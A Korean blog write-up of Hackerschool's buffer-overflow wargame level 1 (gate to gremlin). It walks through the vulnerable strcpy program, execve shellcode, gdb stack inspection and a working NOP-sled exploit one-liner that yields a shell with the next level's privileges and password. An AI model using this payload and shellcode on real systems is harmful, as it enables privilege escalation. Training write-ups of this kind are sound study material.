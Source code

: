 ```yaml
---
layout: post
title: "[Wargame]  해커스쿨 BoF LEVEL1 (gate -> gremlin) :  simple bof"
date: 2015-10-18 21:00
categories:  wargame
tags: [bof]
---
```


[해커스쿨 왕기초편](http://www.hackerschool.org/Sub_Html/HS_University/bof_1.html)을 읽고 나서 제대로 BoF 훈련을 해보기 위하여 [BoF 원정대 Wargame](http://www.hackerschool.org/HS_Boards/zboard.php?id=HS_Notice&no=1170881885)을 시작하였다.
Stage 하나하나 직접 해보자. :)

<!--more-->

## BoF LEVEL1 (gate -> gremlin) :  simple bof

256bytes 사이즈의 큰 buffer 에 BoF 완성하면 되는 문제.

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - gremlin
        - simple BOF
*/

int main(int argc, char *argv[])
{
    char buffer[256];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
```

## shellcoe 확보

Scratch 부터  shellcode 작성할 수 있으면 좋겠지만.. 우선은 Linux x86 에서 shell 띄우는 shellcode 를 찾아보았다.

[Writing shellcode for Linux and *BSD](http://www.kernel-panic.it/security/shellcode/shellcode5.html)

### c-code

`execve()` 이용하여 `/bin/sh` 실행하는 아주 간단한 코드. 

```c
#include <unistd.h>

int main() {
        char *args[2];
        args[0] = "/bin/sh";
        args[1] = NULL;
        execve(args[0], args, NULL);
}
```

BoF 원정대의 VM 환경에서 shell 띄우기 동작함.

```bash
> gcc -g -o get_shell get_shell.c 
> ./get_shell 
bash$ id
uid=500(gate) gid=500(gate) groups=500(gate)
```

### shellcode : assembly 변환

위의 c 코드를  compile 된 obj 를 가지고 shellcode 로서 동작시키 위하여 null byte 를 없애는 등의 작업을 해야하는데... 우선 초보이므로 최종 결과물을 사용해보자.  대신 좀더 익숙해지면 반드시 직접 손으로 shellcode 짜야한다. 

### 최종 shellcode

```c
char shellcode[] = "\xeb\x18\x5e\x31\xc0\x88\x46\x07\x89\x76\x08\x89\x46"
                   "\x0c\xb0\x0b\x8d\x1e\x8d\x4e\x08\x8d\x56\x0c\xcd\x80"
                   "\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68";
int main()
{
        int *ret;
        ret = (int *)&ret + 2;
        (*ret) = (int)shellcode;
}
```

## Dynamic debugging

BoF 를 하기 위하여 중요한 정보는 다음과 같다.

- Buffer size
- Return address

우리는 Wargame 으로서 소스를 가지고 있어서 buffer 의 사이즈가 256bytes 라는 것은 운좋게도 알고 있는 상황이다. 

### Return address 확인

하지만 코드가 수행되고 있는 stack address 는 알지 못한다. 이 값을 알아야 BoF 에서 가장 중요한 stack 에 저장된 saved return address 대신에 exploit code 의 어드레스로 바꾸어 주어야 한다. 

문제의 실행파일인 `gremlin` 파일의 권한이 `gremlin` 이라서  1단계 `gate` 는 권한이 부족하여 gdb debugging 이 제대로 되지 않는 것 같다.

```bash
-rwsr-sr-x    1 gremlin  gremlin     11987 Feb 26  2010 gremlin
```

대신 직접 compile 하여 gdb debugging 을 하여 보자.

```bash
> gcc -g -o gremlin2 gremlin.c
> ls -al
-rwsr-sr-x    1 gremlin  gremlin     11987 Feb 26  2010 gremlin
-rw-rw-r--    1 gate     gate          272 Mar 29  2010 gremlin.c
-rwxrwxr-x    1 gate     gate        12583 Oct 25 16:04 gremlin2
```

	
```bash
(gdb) disas
Dump of assembler code for function main:
0x8048430 <main>:       push   %ebp
0x8048431 <main+1>:     mov    %esp,%ebp
0x8048433 <main+3>:     sub    $0x100,%esp
0x8048439 <main+9>:     cmpl   $0x1,0x8(%ebp)
0x804843d <main+13>:    jg     0x8048456 <main+38>
0x804843f <main+15>:    push   $0x80484e0
0x8048444 <main+20>:    call   0x8048350 <printf>
0x8048449 <main+25>:    add    $0x4,%esp
0x804844c <main+28>:    push   $0x0
0x804844e <main+30>:    call   0x8048360 <exit>
0x8048453 <main+35>:    add    $0x4,%esp
0x8048456 <main+38>:    mov    0xc(%ebp),%eax
0x8048459 <main+41>:    add    $0x4,%eax
0x804845c <main+44>:    mov    (%eax),%edx
0x804845e <main+46>:    push   %edx
0x804845f <main+47>:    lea    0xffffff00(%ebp),%eax
0x8048465 <main+53>:    push   %eax
0x8048466 <main+54>:    call   0x8048370 <strcpy>
0x804846b <main+59>:    add    $0x8,%esp
0x804846e <main+62>:    lea    0xffffff00(%ebp),%eax
0x8048474 <main+68>:    push   %eax
0x8048475 <main+69>:    push   $0x80484ec
0x804847a <main+74>:    call   0x8048350 <printf>
0x804847f <main+79>:    add    $0x8,%esp
0x8048482 <main+82>:    leave  
0x8048483 <main+83>:    ret   
```

```bash
(gdb) x/100x $esp
0xbffff920:     0xbffff928      0xbffffb86      0x90909090      0x90909090
0xbffff930:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff940:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff950:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff960:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff970:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff980:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff990:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff9a0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff9b0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff9c0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff9d0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff9e0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff9f0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffa00:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffa10:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffa20:     0x90909090      0x90909090      0xbffffa00      0x400309cb
0xbffffa30:     0x00000002      0xbffffa74      0xbffffa80      0x40013868
0xbffffa40:     0x00000002      0x08048380      0x00000000      0x080483a1
0xbffffa50:     0x08048430      0x00000002      0xbffffa74      0x080482e0
0xbffffa60:     0x080484bc      0x4000ae60      0xbffffa6c      0x40013e90
0xbffffa70:     0x00000002      0xbffffb72      0xbffffb86      0x00000000
0xbffffa80:     0xbffffc87      0xbffffca9      0xbffffcb3      0xbffffcc1
0xbffffa90:     0xbffffce0      0xbffffced      0xbffffd05      0xbffffd1f
0xbffffaa0:     0xbffffd3e      0xbffffd49      0xbffffd57      0xbffffd97
```

버퍼 사이즈가 충분히 길기 때문에 shellcode 38bytes 앞에 [NOP] 를 넣고, 가장 중요한 [LR] 넣어서 exploit 구성함.

```bash
[Buffer 256 bytes] + [SFP 4bytes]      + [LR 4 bytes]
[NOP 222 bytes] + [shell code 38bytes] + [LR=0xbffff980]
```

## BoF Exploit

```bash
./gremlin `python -c 'print "\x90"*222 + "\xeb\x18\x5e\x31\xc0\x88\x46\x07\x89\x76\x08\x89\x46\x0c\xb0\x0b\x8d\x1e\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68" + "\x80\xf9\xff\xbf"'`
```

```bash
[gate@localhost gate]$ ./gremlin `python -c 'print "\x90"*222 + "\xeb\x18\x5e\x31\xc0\x88\x46\x07\x89\x76\x08\x89\x46\x0c\xb0\x0b\x8d\x1e\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68" + "\x80\xf9\xff\xbf"'`
^1F嵬bin/sh
                bash$ id
uid=500(gate) gid=500(gate) euid=501(gremlin) egid=501(gremlin) groups=500(gate)

bash$ my-pass
euid = 501
hello bof world
```



